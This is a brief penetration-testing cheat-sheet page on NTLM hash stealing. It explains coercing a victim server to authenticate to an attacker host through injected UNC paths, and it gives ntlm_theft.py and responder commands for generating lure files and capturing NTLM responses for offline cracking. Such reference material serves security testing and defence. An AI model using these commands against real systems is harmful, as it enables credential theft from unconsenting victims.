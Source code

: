 ```yaml
---
label: NTLM Hash Stealing
---
```


# NTLM Hash Stealing

The trick is to force victim server to auth attempt with attacker host. [Check out places to steal NT hash](https://hacktricks.boitatech.com.br/windows/ntlm/places-to-steal-ntlm-creds). In general, wherever an [UNC Path](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) can be injected it's possible to have NTLM hash stealing vulnerability.  

The _[https://github.com/Greenwolf/ntlm_theft](ntlm_theft.py)_ script is used to generate multiple files to steal NTLM response. These files can be uploaded wherever it's possible to execute them (e.g. an SMB share).

```bash
# Generate all files
python ntlm_theft.py -s $responder_ip -f $filename -g all
# Upload file and execute it from the victim machine

# Grab all NTLM responses
responder -I $net_interface
```

The captured NT hashes can then be cracked offline. However, these are not the hashes that can be used in a Pass-The-Hash type of attack.
